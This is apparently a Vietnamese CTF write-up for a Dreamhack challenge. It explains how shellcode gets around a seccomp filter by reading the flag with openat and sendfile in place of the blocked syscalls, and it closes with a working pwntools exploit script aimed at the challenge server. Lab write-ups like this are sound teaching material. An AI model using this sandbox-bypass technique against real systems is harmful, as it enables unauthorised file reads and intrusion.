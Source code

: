 ```
  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sandbox();

  sc = (void *)shellcode;
  sc();
}
```

ta thấy có seccomp nên dùng tool check thử : 


![image](https://hackmd.io/_uploads/SJEy6Nj7ye.png)

- vì vậy ta sẽ thực hiện các syscall tuy khác mà giống với các syscall trên , sau khi mày mò thì ta tìm dc openat
- nó cấm các syscall thực thi như ở hình trên , kh phải kiến trúc 64bit cũng bị cấm

-> ta sẽ dùng openat + sendfile ở bài này 

![image](https://hackmd.io/_uploads/rk5rpNsXke.png)

- ta sẽ set cho dirfd là 0
- đường dẫn thường sẽ là /home/chall/flag
- flags = 0

ngoài ra ta cũng tìm thấy 1 syscall hữu ích khác ( tương đương write và read )

![image](https://hackmd.io/_uploads/Ski86NiXkg.png)

arg1 : tham số đầu sẽ là 1 hoặc 0 (stdout), tham số 2 sẽ stdin vào $rax, tham số thứ 3 là offset bắt đầu đọc (nếu muốn lấy toàn bộ dữ liệu thì để 0 hoặc NULL), tham số 4 là size(ta để 100 cho nó thoáng)

![image](https://hackmd.io/_uploads/rkDupNjXJe.png)


script :

dùng pwntools 

```

#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./bypass_seccomp',checksec=False)
#p = process()
p = remote('host3.dreamhack.games', 19961)
payload = shellcraft.openat(0,'/home/bypass_seccomp/flag',0)
payload += shellcraft.sendfile(1,'rax',0,100)
p.sendafter(b'shellcode: ',asm(payload))

p.interactive()
```
